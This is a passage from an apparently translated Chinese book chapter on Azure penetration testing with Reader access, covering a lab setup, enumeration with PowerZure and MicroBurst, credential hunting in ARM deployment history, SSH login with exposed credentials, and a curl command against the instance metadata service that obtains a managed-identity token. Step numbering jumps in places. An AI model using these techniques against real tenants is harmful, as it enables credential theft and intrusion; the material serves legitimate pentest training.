## Exploiting Reader Permissions

虽然 Reader 角色在订阅中的使用不如 Contributor 或 Owner 角色频繁，但它确实允许用户读取服务资源和配置的基本信息。作为进入环境的初始入口点，Reader 角色可能允许你读取可用于转向更特权角色的敏感信息。

Reader 角色不允许对服务或资源进行任何修改，但它会允许攻击者枚举环境的攻击面。这是经常为在 Azure 渗透测试期间可能配置的任何 Azure AD 账户发放 Reader 访问权限的驱动原因。

出于充分的理由，许多组织希望避免在渗透测试期间向渗透测试人员授予订阅的变更（Contributor 或更高）访问权限。通过发放 Reader 角色账户，测试人员将获得有助于他们识别从匿名角度可能不明显的配置错误的洞察。

当提示输入密码时，输入 `myPassword123`（或你选择的密码）并按 *Enter*。等待脚本部署完成。部署可能需要大约 8 分钟才能完成：



图 4.3 – 设置脚本的示例输出

### What does the script do?

脚本创建一个具有 Reader 权限的 Azure 订阅用户账户。脚本还设置了 *Figure 4.4* 中显示的资源和对象：

- 一个容器注册表实例
- 一台 Ubuntu Linux VM
- 一个 Azure Automation 账户
- 一个 web app 资源
- 一个 MySQL 平台数据库



图 4.4 – 脚本创建的资源图


5. 脚本执行完毕后，本次练习后续所需的关键信息将显示在输出部分。请将信息复制到记事本文档中，以备后用。你需要从输出部分获取两个值：

- **Azure Reader User：** 这是具有 Azure 订阅读取者权限的练习用户名。我们将在下一步为其授予对 Azure AD 的读取者权限。
- **Azure Reader User Password：** 这是你之前输入的 Azure Reader 用户的密码：

```
Transcript started, output file is reader-account-output.txt
################
#### Script Output ####
################
Azure Reader User: readeruser@azurepentesting.com
Azure Reader User Password: myPassword123

Transcript stopped, output file is /home/azureadmin/reader-account-output.txt
Deployment Ended 06/03/2021 12:38:15
PS /home/azureadmin>
```



6. 返回 Azure 门户（仍以 azureadmin 用户身份进行身份验证），浏览到 **Azure Active Directory**。依次单击 **角色和管理员**，然后选择 **全局读取者** 角色：




7. 在 **全局读取者 | 分配** 边栏中，单击 **添加分配**，选择 **readeruser** 对象，然后点击 **添加**。这将确保 readeruser 帐户在 Azure AD 中拥有全局读取者权限，同时拥有订阅的读取者权限：



图 4.7 – 将 readeruser 帐户添加为全局读取者

8. 使用 RDP 连接到你的渗透测试虚拟机，并以管理员身份打开 PowerShell。使用以下命令对 Azure 进行身份验证：

```powershell
PS C:\> Connect-AzAccount
```

9. 当提示进行身份验证时，使用 **Azure Reader Admin User** 值（来自脚本输出）作为用户名，并使用 **Azure Reader Admin User Password** 值（同样来自脚本输出）作为密码：

```powershell
PS C:\Users\pentestadmin> Connect-AzAccount

Account                              SubscriptionName  TenantId
-------                              ----------------  --------
readeruser@azurepentesting.com       Development       40d5707e-b434-4f10-9d7d-21...
```

图 4.8 – 以 readeruser 帐户成功进行身份验证

3. 从顶部菜单栏选择 **导出到 CSV**。
4. 下载 CSV，并使用 Excel 按 **类型** 对资源数据进行排序。
5. 添加一个计数列，并在每一行中填入 1。
6. 使用 Excel 的“分类汇总”函数（采用以下设置）在类型每次变化时进行计数：



图 4.10 – 创建资源类型的分类汇总

7. 这应该会生成一份关于订阅中所有可用资源的简明汇总列表：

| 名称 | 类型 | 资源组 | 位置 | 订阅 | 计数 |
|---|---|---|---|---|---:|
|  | 应用服务计数 |  |  |  | 11 |
|  | 应用服务计划计数 |  |  |  | 7 |
|  | 自动化帐户计数 |  |  |  | 3 |
|  | 可用性集计数 |  |  |  | 1 |
|  | Azure Cosmos DB 帐户计数 |  |  |  | 1 |
|  | 认知服务计数 |  |  |  | 1 |
|  | 容器注册表计数 |  |  |  | 1 |
|  | 磁盘计数 |  |  |  | 103 |
|  | 映像计数 |  |  |  | 4 |
|  | IoT 中心计数 |  |  |  | 1 |
|  | 密钥保管库计数 |  |  |  | 3 |
|  | Kubernetes 服务计数 |  |  |  | 1 |
|  | Log Analytics 工作区计数 |  |  |  | 2 |
|  | 网络接口计数 |  |  |  | 107 |
|  | 网络安全组计数 |  |  |  | 89 |
|  | 公共 IP 地址计数 |  |  |  | 122 |
|  | 恢复服务保管库计数 |  |  |  | 1 |
|  | 路由表计数 |  |  |  | 1 |
|  | Runbook 计数 |  |  |  | 15 |
|  | SendGrid 帐户计数 |  |  |  | 2 |
|  | 快照计数 |  |  |  | 2 |
|  | 解决方案计数 |  |  |  | 5 |
|  | SQL 数据库计数 |  |  |  | 1 |
|  | SQL Server 计数 |  |  |  | 2 |
|  | 存储帐户计数 |  |  |  | 43 |
|  | 虚拟机计数 |  |  |  | 24 |
|  | 虚拟机规模集计数 |  |  |  | 1 |
|  | 虚拟网络计数 |  |  |  | 35 |
|  | 总计 |  |  |  | 589 |

图 4.11 – Azure 资源汇总列表

虽然门户是一个很好的可视化工具，但它并不总是收集配置信息的最有效方法。为此，我们需要使用能够通过脚本和 PowerShell 模块自动收集配置的工具。

### 介绍 PowerZure

PowerZure 是一个基于 PowerShell 的工具，用于枚举 Azure 中的资源并利用服务中的不安全配置。它由多个内置函数组成，可用于收集有关 Azure 环境的信息并利用已发现的资源。我们将在本章及后续章节中使用其中的一些函数。



接下来，我们将使用 PowerZure 来收集示例订阅的信息。

### 动手练习 – 使用 PowerZure 收集订阅访问信息

在本练习中，我们将在渗透测试虚拟机上下载 PowerZure，并将其导入到我们的 PowerShell 会话中。本练习将完成以下任务：

- **任务 1：** 下载 PowerZure。
- **任务 2：** 导入 `PowerZure.ps1` 模块。
- **任务 3：** 运行 `Get-AzureTargets` 函数查看用户权限。
- **任务 4：** 查看收集到的信息。

让我们开始：

1. 在渗透测试虚拟机上，在已通过 Az PowerShell 模块进行身份验证的 PowerShell 会话中，使用以下命令下载 PowerZure：

```
PS C:\> cd C:\Users\$env:USERNAME
PS C:\> git clone https://github.com/hausec/PowerZure.git
```

下面是命令及其输出的截图：



图 4.12 – 克隆 PowerZure GitHub 仓库

2. 使用以下命令将 PowerZure 模块导入到你的 PowerShell 会话中。如果提示安装 Azure AD 模块，请键入 Y 并按 *Enter*。关闭并重新打开 PowerShell 控制台：

```powershell
PS C:\> cd .\PowerZure\
PS C:\> Import-Module .\PowerZure.ps1
```

其效果如下：



图 4.13 – PowerZure 模块的初始导入

3. 如果你安装了 Azure AD 模块，请打开一个新的 PowerShell 会话，并使用以下命令将 PowerZure 重新导入到 PowerShell 控制台中：

```powershell
PS C:\> cd C:\Users\$env:USERNAME\PowerZure
PS C:\> Import-Module .\PowerZure.ps1
```

模块导入后，它将列出你当前的角色（Reader）和可用的订阅。这是有用的侦察信息：

- **AADRoles：** 显示当前用户在 Azure AD 中被分配的角色。
- **AzureRoles：** 显示用户的 Azure RBAC 角色分配和作用域。
- **可用订阅：** 显示用户拥有一定权限级别的订阅。此信息有助于判断是否可以使用此用户账号横向移动到其他订阅：



图 4.14 – PowerZure 输出示例

这是输出的样子：



图 4.16 – PowerZure 输出示例

虽然 PowerZure 的 Get-AzTargets 函数是了解用户访问范围及其可访问资源的绝佳方式，但 MicroBurst 也会将此信息收集到平面文件中，以便审查整个订阅。每种工具都有各自的优点，不同情况需要不同的工具。

> **重要说明**
> 
> 值得注意的是，在启用了 Azure Defender 的 Azure 安全中心版本中，对 PowerZure 和 MicroBurst 都有默认检测。如果你的目标是在环境中保持隐蔽，这些自动化工具可能会暴露你的活动。有关可用 Azure 安全警报的更多信息，请参阅 Microsoft 文档 – `https://docs.microsoft.com/en-us/azure/security-center/alerts-reference`。


在下一个练习中，我们将使用 MicroBurst 的一个函数对整个 Azure 环境进行快速且全面的枚举。

### 实践练习 – 使用 MicroBurst 枚举订阅信息

我们曾在 *第 3 章，查找 Azure 服务和漏洞* 中介绍过 MicroBurst 工具包，用于匿名枚举 Azure 服务。在本练习中，我们将使用其一个函数对我们的 Azure 订阅进行经过身份验证的枚举。我们将在本练习中完成的任务如下：

- **任务 1：** 将 MicroBurst 导入 PowerShell 会话。
- **任务 2：** 使用 `Get-AzDomainInfo` MicroBurst 函数使用读取者权限枚举订阅。
- **任务 3：** 查看函数收集的资源清单。
- **任务 4：** 查看函数收集的用户列表。
- **任务 5：** 查看用于定位的特权用户列表。

让我们开始：

1. 在你的渗透测试 VM 上的经过身份验证的 Az 模块 PowerShell 会话中，使用以下命令导入 MicroBurst 模块。如果出现关于 MSOnline 的非致命错误，可以忽略，因为该模块未安装在 VM 上，因为它未被使用：

```powershell
PS C:\> cd C:\Users\$env:USERNAME\MicroBurst
PS C:\> Import-Module .\MicroBurst.psm1
```

2. 使用以下命令创建一个文件夹来存储我们即将运行的函数输出：

```powershell
PS C:\> New-Item -Name "microburst-output" -ItemType "directory"
```

3. 使用以下命令运行 MicroBurst 函数以枚举 Azure 订阅。当显示订阅的窗口打开时，单击 **OK** 继续：

```powershell
PS C:\> Get-AzDomainInfo -Verbose -Folder microburst-output
```

以下是其外观的截图：



图 4.17 – MicroBurst 选择订阅的提示

该函数将以 CSV 形式输出枚举结果，文本文件将存储在指定的输出文件夹中。

4. 使用以下命令打开输出文件夹。这将在文件资源管理器中打开 `microburst-output` 文件夹：

```powershell
PS C:\> explorer microburst-output
```

你将在打开的视图中看到一个名为 Az 的单个文件夹：



图 4.18 – 打开 MicroBurst 输出文件夹

5. 按如下方式查看文件和文件夹的内容。内容包含函数收集的资源清单（你可以使用 Visual Studio Code 打开 CSV 文件）：

   - Az -> **<订阅名称>**（在我们的例子中，我们的订阅名为 Development，但对你来说会不同）-> **PublicIPs.csv**
   - Az -> **<订阅名称>** -> **Resources**
   - Az -> **<订阅名称>** -> **VirtualMachines**

可以解析这些信息以获取在订阅中配置的外部目标（App Service 应用程序；存储账户；公共 IP 地址和域名）。然后可以使用这些信息来针对托管服务进行漏洞评估或配置错误：



6. 按如下方式查看指定文件的内容。内容包含函数收集的用户列表：

**Az -> <订阅名称> -> Users.csv**

可以从此列表中获取用户名、电子邮件地址、账户类型和账户状态等有用信息。这些信息可用于针对凭据猜测或钓鱼攻击，如我们在 *第 3 章，查找 Azure 服务和漏洞* 中之前演示的那样：



图 4.20 – 示例 Users.csv 文件输出

7. 按如下方式查看指定文件夹的内容。内容包含函数收集的特权用户列表：

**Az -> <订阅名称> -> RBAC**

这些用户可以被针对以进行凭据窃取攻击从而提升权限。

我们使用的 MicroBurst 函数 – `Get-AzDomainInfo` – 是一个强大的经过身份验证的枚举工具。它所做的不仅仅是我们在这里能够审查的内容，我们将在后面的练习中再次使用它。你可以查看 Az 目录的内容以查看其他枚举输出结果。

> **重要说明**
> 
> 对于较大的环境，你可能需要限制 MicroBurst 收集的信息。通过使用与参数关联的布尔标志（Users、Groups 等），你可以禁用收集你可能不需要的信息。请注意，对于拥有大量用户的租户，用户和组的收集可能需要很长时间。

现在我们已经枚举了可用资源，让我们将重点转向 Reader 角色可访问的、通常包含凭据的位置。

### 审查常见的明文数据存储

在本节中，我们将审查 Azure 中 Reader 角色可访问的常见区域，其中可能存储明文密码。这些可能是有意的明文密码，但就其大部分而言，这些数据存储将包含意外暴露的凭据。

需要注意的一件重要事情是，一些凭据本意就是以明文形式存在。正如你稍后会看到的，Azure 中存在特定的服务，其中明文密码是预期且作为服务的一部分被利用的。这看起来似乎是一种危险的做法，而且这确实是我们作为攻击者会利用的东西，但只要对凭据周围有适当的授权控制，它们就可以被某些服务安全地使用。

值得一提的是，微软已在此方面有所改进，要求读取/写入权限或更明确的权限才能读取可能存储敏感信息从而提供数据访问的配置。以下是一些示例：

- 读取 Azure 存储账户的密钥需要明确的权限，该权限不包含在 Reader 角色的权限中。
- 读取 Azure App Service 和 Azure Function 应用的配置设置需要 Reader 角色不具备的读取/写入权限。
- 读取可用于访问 Cosmos DB 账户中数据的账户密钥需要 Reader 角色不具备的明确权限。

虽然这是向前迈出的重要一步，但这也可能导致管理员向可能需要访问此类信息的用户或工具授予超出所需的更多权限。当然，如果管理员这样做，那不是微软的错！

在接下来的小节中，我们将介绍渗透测试人员使用 Reader 角色可以搜寻敏感信息的位置。

#### 评估 Azure 资源管理器 (ARM) 部署

Azure 订阅中的每个资源组都维护过去资源部署的历史记录（每个资源组最多 800 个）。可以从 Azure 门户（资源组的 **部署** 刀片；见 *图 4.21*）或以编程方式检查此过去资源部署的历史记录：

正如我们在 *图 4.22* 中的模板参数中所看到的，`adminUsername` 参数设置为 `String`，并且在部署历史记录的输入中可见，如下所示（*图 4.23*）。`adminPassword` 参数设置为 `SecureString` 类型，并且未在部署历史记录的输入部分显示：



图 4.23 – 门户中示例部署输入

上述配置是正确的做法，但云工程师可能会在模板中错误配置参数类型，导致敏感信息以明文形式暴露。在实际的渗透测试经验中，我们通常看到这种情况发生在资源组中的早期部署中。一旦工程师意识到模板中的错误，他们会为未来的部署进行更正，但他们可能会忘记清理之前已暴露敏感信息的部署。

信息泄露的第二个主要原因是云工程师可能会意外地在模板的输出部分包含敏感值。Azure 模板部署允许工程师在输出部分指定部署后返回的值。这些值可用于将某些值传递给一系列自动化任务中的另一个外部进程。诸如账户密钥、密码或连接字符串等敏感值可能会意外包含在此部分。值得注意的是，即使是 `SecureString` 参数值也可以在输出部分以纯文本形式输出。你将在下一个实践练习中看到一个示例。

作为攻击者，我们可以使用在部署历史记录中找到的敏感值来推进攻击链。通常，部署模板会更改为使用安全字符串，但密码保持不变。还应注意，平均 Azure 租户将拥有大量部署的资源。为了高效地审查这些部署，我们需要使用自动化工具和 Az PowerShell 模块。


- 2. 检查文件中的参数和输出部分，查找暴露的凭据。你可以搜索 `Outputs` 和 `Parameters` 来更快地定位相关信息：

  

  图 4.25 – 文件中暴露的 SSH 凭据

  你应当能够找到某个先前部署中暴露的 Linux VM 的主机名、用户名和密码。请复制 SSH 命令输出，因为你需要使用找到的凭据连接到该 Linux VM。同时，复制密码值。

- 3. 在你的渗透测试 VM 的 PowerShell 会话中，粘贴你在*步骤 2*中复制的 SSH 命令，然后按*Enter*（PowerShell 现已原生支持 SSH）。当提示指纹时，输入`yes`并按*Enter*。在提示输入密码时，输入你从*步骤 2*复制的密码，然后按*Enter*：

  ```powershell
  PS C:\> ssh linuxadmin@<azure_vm_host>
  ```

  以下是命令截图：

  

  图 4.26 – 向测试系统进行身份验证

虽然这是我们环境中的一个测试系统，但你可能希望避免向已在测试中入侵的系统添加额外工具。在这种情况下，`jq` 可以帮助我们获得格式良好的 JSON 输出。以下是该命令及其输出的截图：



图 4.27 – 元数据服务响应示例

输出将包含有关 VM 的计算、网络、磁盘和其他配置的信息。

- 5. 使用以下命令检查 VM 是否有关联的托管身份。如果使用了托管身份，将返回一个 `access_token`，这可能会提供提升权限的机会：

  ```bash
  root@LinuxVM:~# curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' | jq
  ```

  以下是命令及其输出的截图：

  

  图 4.28 – 元数据令牌输出示例

你可以在这里看到，我们获得了 Azure 管理平面（Resource Manager）的访问令牌。现在可以使用此令牌与 Azure REST API 进行交互。MicroBurst 工具集包含一组函数，可以使用这些令牌与 API 交互，以收集 Key Vault 机密和存储帐户密钥，甚至可以在 VM 上运行命令。我们将在下一章中介绍其中一些功能，但了解如何获取令牌是很有用的。

虽然我们可以将访问令牌与 Azure REST API 一起使用，但使用 Azure CLI 与订阅交互要容易得多。由于这是我们自己的测试环境（而不是客户的），让我们安装 Azure CLI 来检查此 VM 拥有的权限。

- 6. 使用以下命令在 Linux 系统上安装 Azure CLI：

  ```bash
  root@LinuxVM:~# curl -sL https://aka.ms/InstallAzureCLIDeb | sudo bash
  ```

- 7. 使用以下命令通过 VM 的托管身份登录：

  ```bash
  root@LinuxVM:~# az login --identity
  ```

  以下是命令及其输出的截图：

  

  图 4.29 – 使用托管身份进行 Az CLI 登录

### 利用 App Service 配置

Azure App Service 是 Microsoft 提供的用于在云中托管 Web 应用程序和 API 的服务。虽然我们在上一章中从高层介绍了它们，但这里将重点介绍订阅中 Reader 角色可用的具体配置。

在本节中，我们将研究 App Service 和 Function App 中的一些重要配置项，以进一步攻击这些服务。

#### Azure App Service 应用

App Service 应用的匿名枚举已在*第 3 章，发现 Azure 服务和漏洞*中介绍过。在本节中，我们将介绍如何使用 Reader 角色访问权限找到所有应用程序。完整的应用程序列表将为我们提供更好的攻击面，并可能使我们找到订阅的外部入口点。

使用门户，可以相当容易地在 **App Service** 菜单中识别任何可用的应用服务。然而，使用 PowerShell 收集所有需要的应用程序信息要方便得多。

要收集这些信息，我们可以使用 Az PowerShell 模块和以下命令：

```powershell
PS C:\> Get-AzWebApp

GitRemoteName             :
GitRemoteUri              :
GitRemoteUsername         :
GitRemotePassword         :
AzureStorageAccounts      :
AzureStoragePath          :
State                     : Running
HostNames                 : {azurepentesting-function.azurewebsites.net}
RepositorySiteName        : azurepentesting-function
UsageState                : Normal
